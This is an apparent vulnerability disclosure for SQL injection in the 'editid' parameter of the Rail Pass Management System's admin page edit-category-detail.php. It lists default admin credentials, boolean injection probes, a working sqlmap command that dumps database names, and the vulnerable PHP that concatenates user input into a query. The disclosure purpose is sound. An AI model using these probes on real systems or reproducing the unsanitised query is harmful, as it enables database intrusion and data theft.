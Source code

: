 # [Rail Pass Management System-SQL Injection-edit-category-detail.php]

## Basic Information

**[Bug Reporter]:** DiliLearngent

**[Application Vendors]:** `https://phpgurukul.com/rail-pass-management-system-using-php-and-mysql/`

**[Affected Version]:**Rail Pass Management System V1.0

**[Test Environment]:** windows10+apache+php5.6+mysql5.5

**[Install]:**

1. Download the zip file

2. Extract the file and copy `rpms` folder

3. Paste inside root directory(for xampp xampp/htdocs, for wamp wamp/www, for lamp var/www/HTML)

4. Open PHPMyAdmin (http://localhost/phpmyadmin)

5. Create a database with the name `rpmsdb`

6. Import `rpmsdb.sql` file(given inside the zip package in the SQL file folder)

7. Run the script `http://localhost/rpms`

**Credential for Admin panel :**

**Username:** admin
**Password:** Test@123

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://localhost/rpms/admin/edit-category-detail.php?editid=13`    

**[Vulnerability Location]:** rpms/admin/edit-category-detail.php

**[Vulnerability Test]:**

1. When you enter `13%20and%201=1` in the `editid` parameter, the page displays as follows:

   ![](../../img/20230427155036.png)

   

2. When you enter `13%20and%201=2` in the `editid` parameter, the page displays as follows:

   ![](../../img/20230427155212.png)

3. Testing with sqlmap

   ```
   python sqlmap.py -u "http://localhost/rpms/admin/edit-category-detail.php?editid=13" --cookie="PHPSESSID=4acbjc61q1opnkih7qmkd6g9t7" --dbs --batch
   ```

   ![](../../img/20230427162644.png)

**[code analysis]:**

rpms/admin/edit-category-detail.php

```php
<?php
$eid=$_GET['editid'];
$sql="SELECT * from  tblcategory where ID=$eid";
$query = $dbh -> prepare($sql);
$query->execute();
$results=$query->fetchAll(PDO::FETCH_OBJ);
$cnt=1;
if($query->rowCount() > 0)
{
foreach($results as $row)
{               ?>
```

The GET parameter `editid` is obtained without any filtering and spliced directly into the sql execution statement, and then a different page response exists depending on the result of the execution.